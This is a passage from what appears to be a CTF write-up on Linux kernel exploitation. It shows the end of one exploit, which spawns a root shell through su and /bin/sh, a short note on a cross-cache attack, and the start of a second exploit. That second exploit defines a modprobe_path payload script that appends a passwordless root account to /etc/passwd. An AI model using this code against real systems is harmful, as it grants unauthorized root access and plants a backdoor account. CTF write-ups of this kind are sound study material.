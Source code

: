 ```c
    info("socket"); 
    int inv_protocol = socket(38, SOCK_SEQPACKET, 0);

    system("su - pwn");
    system("/bin/sh");
    return 0;
}
```

## Summary 2
According to the title of this challenge, author intended us to exploit with cross-cache.

[](https://xz.aliyun.com/news/11863)

[](https://u1f383.github.io/linux/2025/01/03/cross-cache-attack-cheatsheet.html)


## exploit 2
```c
#include <assert.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>

#define COLOR_RESET   "\033[0m"
#define COLOR_RED     "\033[0;31m"
#define COLOR_GREEN   "\033[0;32m"
#define COLOR_YELLOW  "\033[0;33m"
#define COLOR_BLUE    "\033[0;34m"
#define COLOR_MAGENTA "\033[0;35m"
#define COLOR_CYAN    "\033[0;36m"
#define PROC_NAME "NKTIDKSG"
#define MODPROBE_SCRIPT "#!/bin/sh\necho pwn::0:0:root:/root:/bin/sh>>/etc/passwd\n"
#define MODPROBE_FAKE "/tmp/810114514"
#define info(fmt, ...) \
    printf(COLOR_CYAN "[*] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define success(fmt, ...) \
    printf(COLOR_GREEN "[+] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define error(fmt, ...) \
    printf(COLOR_RED "[-] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define warning(fmt, ...) \
    printf(COLOR_YELLOW "[!] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define SYSCHK(x) ({ \
    typeof(x) __res = (x); \
    if (__res == (typeof(x))-1) { \
    fprintf(stderr, "%s: %s\n", "SYSCHK(" #x ")", strerror(errno)); \
    exit(1); \
    } \
    __res; \
    })

```